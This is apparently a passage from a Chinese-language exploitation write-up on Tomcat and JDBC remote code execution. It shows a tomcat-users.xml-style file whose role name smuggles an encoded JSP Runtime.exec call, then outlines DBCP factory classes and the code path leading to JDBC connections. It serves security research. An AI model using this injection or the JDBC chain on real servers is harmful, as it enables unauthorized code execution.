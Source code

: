 ```jsp
//test.jsp
<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
  <role rolename="&#x3c;%Runtime.getRuntime().exec(&#x22;calcf&#x22;); %&#x3e;"/>
</tomcat-users>
```

#### JDBC attack

在[Make JDBC Attacks Brilliant Again - HITBSecConf2021 - Singapore HITBSecConf2021 – Singapore](https://conference.hitb.org/hitbsecconf2021sin/sessions/make-jdbc-attacks-brilliant-again/)中有针对JDBC连接而造成RCE的原理与利用方式，我们需要寻找对应的驱动来进行JDBC的连接

##### dbcp 驱动

###### 4种Factory类

有四种不同的版本，分别有着不同的Factory类

1. dbcp1_tomcat: `org.apache.tomcat.dbcp.dbcp.BasicDataSourceFactory`
2. dbcp2_tomcat: `org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory`
3. commons-dbcp2: `org.apache.commons.dbcp2.BasicDataSourceFactory`
4. commons-dbcp1: `org.apache.commons.dbcp.BasicDataSourceFactory`

上面四种Factory类都可以作为Bean来使用

跟进Factory类，在configureDataSource方法中，判断了init属性的大小，如果大于0，就会调用`getLogWriter`方法

![image-20220808123914185](README/image-20220808123914185.png)

跟进，接着调用了`createDataSource`方法，创建连接

![image-20220808124119421](README/image-20220808124119421.png)
